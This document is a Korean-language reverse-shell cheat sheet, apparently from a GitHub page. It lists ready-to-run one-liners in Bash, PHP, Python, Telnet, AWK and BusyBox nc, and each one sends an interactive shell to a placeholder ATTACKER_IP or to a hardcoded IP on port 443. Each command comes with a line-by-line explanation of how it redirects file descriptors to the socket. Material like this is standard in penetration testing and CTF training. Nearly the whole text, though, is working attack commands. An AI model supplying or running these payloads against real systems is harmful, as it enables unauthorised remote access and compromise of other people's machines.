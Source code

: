 ### **Bash (배시)**

Bash는 리눅스 및 유닉스 계열 시스템에서 가장 널리 사용되는 셸입니다. 아래 명령어들은 표준 입출력과 파일 디스크립터 조작을 통해 리버스 셸을 생성합니다.

- **Normal Bash Reverse Shell**: `bash -i >& /dev/tcp/ATTACKER_IP/443 0>&1`

  - **분석**: 이 명령어는 **Bash**의 대화형(interactive) 셸을 시작하고(`-i`), 모든 표준 입출력 및 표준 에러(`>&`)를 `/dev/tcp/ATTACKER_IP/443`으로 리디렉션하여 공격자에게 연결합니다. 마지막의 `0>&1`은 표준 입력(0)을 표준 출력(1)과 동일하게 만들어 공격자가 입력한 명령어를 셸이 읽도록 합니다. 이로써 완벽한 양방향 통신이 가능해집니다.

- **Bash Read Line Reverse Shell**: `exec 5<>/dev/tcp/ATTACKER_IP/443; cat <&5 | while read line; do $line 2>&5 >&5; done`

  - **분석**: 이 명령어는 새로운 **파일 디스크립터(File Descriptor)** `5`를 생성하여 공격자의 IP와 포트에 대한 양방향 연결을 설정합니다. `cat <&5`로 공격자의 명령어를 파일 디스크립터 5로부터 읽어 `while read line` 루프로 전달하며, 각 명령어를 실행합니다(`$line`). 명령어의 표준 출력(Standard Output)과 표준 에러(Standard Error)는 모두 파일 디스크립터 5로 다시 리디렉션되어 공격자에게 전달됩니다. 이는 명령어 라인 단위로 실행되는 비대화형 셸입니다.

- **Bash With File Descriptor 196 Reverse Shell**: `0<&196;exec 196<>/dev/tcp/ATTACKER_IP/443; sh <&196 >&196 2>&196`

  - **분석**: 이 명령어는 임의의 파일 디스크립터 `196`을 사용하여 TCP 연결을 생성합니다. `exec 196<>/dev/tcp/ATTACKER_IP/443`을 통해 양방향 연결을 설정한 후, `sh` 셸의 표준 입출력 및 표준 에러를 모두 파일 디스크립터 196으로 리디렉션합니다. 첫 번째 `0<&196`은 표준 입력(0)을 196으로 리디렉션하는 부분으로, 사실상 `exec` 명령에 의해 통합되는 과정입니다. 이 스크립트는 `sh` 셸을 사용합니다.

- **Bash With File Descriptor 5 Reverse Shell**: `bash -i 5<> /dev/tcp/ATTACKER_IP/443 0<&5 1>&5 2>&5`
  - **분석**: 첫 번째 명령어와 유사하지만, 특정 파일 디스크립터 `5`를 사용하여 연결을 설정합니다. `5<> /dev/tcp/ATTACKER_IP/443`은 파일 디스크립터 5를 공격자 IP의 TCP 연결에 대한 양방향 스트림으로 엽니다. 이후 `0<&5 1>&5 2>&5`를 통해 표준 입출력과 에러를 모두 이 파일 디스크립터 5로 리디렉션하여 완전한 양방향 셸을 만듭니다.

---

### **PHP (피에이치피)**

PHP는 웹 애플리케이션 개발에 널리 사용되는 언어로, 웹 서버 취약점을 통해 리버스 셸을 생성할 때 주로 사용됩니다.

- **PHP Reverse Shell Using the exec Function**: `php -r '$sock=fsockopen("ATTACKER_IP",443);exec("sh <&3 >&3 2>&3");'`

  - **분석**: PHP의 `fsockopen` 함수를 사용하여 공격자의 IP와 포트 443에 소켓 연결을 생성합니다. 이 소켓은 파일 디스크립터 `3`으로 할당됩니다. 이후 `exec` 함수를 사용해 `sh` 셸을 실행하고, 이 셸의 표준 입출력과 에러를 소켓 파일 디스크립터 `3`으로 리디렉션하여 공격자에게 셸을 제공합니다.

- **PHP Reverse Shell Using the shell_exec, system, passthru, popen Function**:
  - **분석**: 이 명령어들은 모두 `exec` 함수와 유사한 방식으로 동작하지만, 셸 명령어를 실행하는 PHP 함수의 차이만 있습니다.
    - `shell_exec`: 명령어를 실행하고 모든 출력을 하나의 문자열로 반환합니다.
    - `system`: 명령어를 실행하고, 실행 결과를 즉시 출력하며, 마지막 라인의 반환값을 반환합니다.
    - `passthru`: 명령어를 실행하고 원시(raw) 출력을 직접 반환합니다. 이는 바이너리 데이터 작업에 유용합니다.
    - `popen`: 명령어 실행을 위한 프로세스 파일 포인터(pipe)를 엽니다. 이는 양방향 통신에 사용될 수 있습니다.

---

### **Python (파이썬)**

Python은 범용 프로그래밍 언어로, 라이브러리를 통해 네트워크 기능을 쉽게 구현할 수 있어 리버스 셸에 자주 사용됩니다.

- **Python Reverse Shell by Exporting Environment Variables**: `export RHOST="ATTACKER_IP"; export RPORT=443; python -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("bash")'`

  - **분석**: `RHOST`와 `RPORT` 환경 변수에 공격자 IP와 포트를 설정합니다. Python 스크립트는 이 환경 변수를 읽어 소켓 연결을 생성하고(`socket.socket()`), `os.dup2()` 함수를 사용하여 소켓의 파일 디스크립터(s.fileno())를 표준 입력(0), 표준 출력(1), 표준 에러(2)로 모두 복제(duplicate)합니다. 마지막으로, `pty.spawn("bash")`를 통해 의사 터미널(`Pseudo Terminal`)을 생성하여 대화형 셸을 제공합니다.

- **Python Reverse Shell Using the subprocess Module**: `python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.4.99.209",443));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("bash")'`

  - **분석**: 앞의 스크립트와 거의 동일한 기능을 수행합니다. `socket.AF_INET` 및 `socket.SOCK_STREAM`을 명시하여 IPv4 TCP 소켓을 생성하고, `subprocess` 모듈을 사용하려 했지만 실제로는 `os.dup2`와 `pty.spawn`을 사용하여 셸을 실행합니다.

- **Short Python Reverse Shell**: `python -c 'import os,pty,socket;s=socket.socket();s.connect(("ATTACKER_IP",443));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("bash")'`
  - **분석**: 앞의 두 스크립트를 더 간결하게 압축한 형태입니다. 핵심 기능(소켓 연결, 파일 디스크립터 복제, 셸 실행)은 모두 동일합니다.

---

### **Others (기타)**

다른 유틸리티들도 네트워크 연결 기능을 활용하여 리버스 셸을 만들 수 있습니다.

- **Telnet**: `TF=$(mktemp -u); mkfifo $TF && telnet ATTACKER_IP 443 0<$TF | sh 1>$TF`

  - **분석**: `mktemp -u`로 고유한 임시 파일 이름을 생성하고, `mkfifo` 명령으로 이 이름을 가진 **파이프(named pipe)**를 만듭니다. `telnet`으로 공격자의 서버에 연결한 후, `0<$TF`로 파이프에서 입력을 받아 `sh`로 전달하고, `1>$TF`로 셸의 출력을 파이프로 다시 보냅니다. 이는 파이프를 통해 양방향 통신을 구현하는 방식입니다.

- **AWK**: `awk 'BEGIN {s = "/inet/tcp/0/ATTACKER_IP/443"; while(42) { do{ printf "shell>" |& s; s |& getline c; if(c){ while ((c |& getline) > 0) print $0 |& s; close(c); } } while(c != "exit") close(s); }}' /dev/null`

  - **분석**: AWK의 내장 TCP 기능인 `/inet/tcp`를 사용하여 공격자와 통신합니다. `getline`으로 공격자로부터 명령어를 읽고(`c`), `do...while` 루프를 통해 이를 실행하며 결과를 다시 `s |& ...`를 통해 공격자에게 보냅니다. AWK 스크립트 자체가 루프와 조건문을 포함하고 있어 복잡한 로직을 구현합니다.

- **BusyBox**: `busybox nc ATTACKER_IP 443 -e sh`
  - **분석**: **BusyBox**는 여러 유닉스 유틸리티를 하나의 실행 파일로 묶은 경량화된 도구입니다. 이 명령어는 BusyBox에 내장된 `nc` (넷캣) 유틸리티를 사용합니다. `-e` 옵션은 연결이 성공하면 지정된 프로그램(`sh`)을 실행하도록 지시하여 리버스 셸을 생성합니다.
